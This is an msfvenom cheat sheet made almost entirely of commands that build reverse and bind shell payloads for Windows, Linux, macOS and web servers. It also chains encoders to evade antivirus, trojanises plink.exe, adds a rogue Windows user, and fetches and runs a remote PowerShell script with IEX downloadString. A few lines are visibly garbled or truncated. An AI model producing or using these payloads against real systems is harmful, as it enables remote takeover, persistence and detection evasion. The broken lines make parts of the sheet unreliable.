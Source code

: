 # msfvenom

## reverse all port payload

```text
msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=192.168.56.1 lport=6969  --platform windows exitfunc=thread -a x86  -f exe >reverse_all.exe

set payload windows/meterpreter/reverse_tcp_allports
```

lport is the starting port which can also be set to 1 so it will go all the way to 65535 in both payload and the

## multi-transport payload

in AddTransports.ps1 :

```text
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url https://<host>:<port>;-RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http://<host>:<port>;-RetryWait 10 -RetryTotal 30
```

The command line for this would be:

```text
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

## custom payload

​​this is a chained command -- enter it one line at a time

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
msfvenom -a x86 --platform windows -e x86/jmp_call_additive -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/call4_dword_xor -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/fnstenv_mov -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.234 LPORT=443 R | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -t exe -c --platform windows /usr/share/windows-binaries/plink.exe -o beffany.exe

```

## Linux

Linux Meterpreter reverse shell x86 multi stage

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf 
```

Linux Meterpreter bind shell x86 multi stage

```text
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 
```

Linux bind shell x64 single stage

```text
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 	
```

Linux reverse shell x64 single stage

```text
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 
```

## Windows

Windows Meterpreter reverse shell

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows Meterpreter http reverse shell

```text
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
```

Windows Meterpreter bind shell

```text
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
```

Windows CMD Multi Stage

```text
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows CMD Single Stage

```text
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe >
```

Windows add user

```text
 shell.exemsfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

Windows Exec Nishang Powershell in python

```text
 msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python
```

Bad characters shikata\_ga\_nai

```text
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"
```

Bad characters fnstenv\_mov

```text
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"
```

## MAC

Mac Reverse Shell

```text
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho
```

Mac Bind shell

```text
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho
```

## Other Languages

python

```text
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py
```

BASH Shell

```text
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh
```

PERL Shell

```text
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl
```

ASP Meterpreter shell

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp
```

JSP Shell

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp
```

​WAR Shell

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```

​pbcopy && echo '?php '

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php
```

Php Reverse Shell

```text
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php
```

